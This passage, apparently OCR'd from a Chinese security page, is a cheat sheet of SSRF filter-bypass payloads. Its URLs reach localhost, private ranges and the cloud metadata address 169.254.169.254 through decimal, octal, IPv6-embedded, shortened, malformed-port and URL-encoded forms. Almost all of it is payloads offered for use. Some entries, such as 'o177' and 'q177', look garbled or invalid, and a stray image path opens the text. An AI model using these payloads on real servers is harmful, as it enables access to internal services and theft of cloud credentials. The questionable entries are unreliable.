 例如，一个 CIDR 前缀可以表示为一个 IP 地址加上一个斜线（/）和一个数字，如 192.168.1.0/24，其中 /24表示网络前缀有 24 位，即前三个字节。这意味着这个网络可以容纳 2^8（256）个主机，因为最后一个字节留给主机地址。

```
ip address from 127.0.0.1/8
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

**使用10进制IP位置绕过**

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/ = http://169.254.169.254
```

**使用8进制IP绕过**

```
http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1
...
```

https://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdfs

**使用 IPv6/IPv4 地址嵌入绕过**

```
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
```

**使用格式错误的网址进行绕过**

```
localhost:+11211aaa
localhost:00011211aaaa
```

**短IP地址进行绕过**

```
http://127.0.1
http://0/
http://127.1
可绕过对IP地址进行限制的情况
```

**对url进行编码绕过**

```
http://127.0.0.1/admin
--> 
http://127.0.0.1/%61dmin
-->
http://127.0.0.1/%2561dmin
```
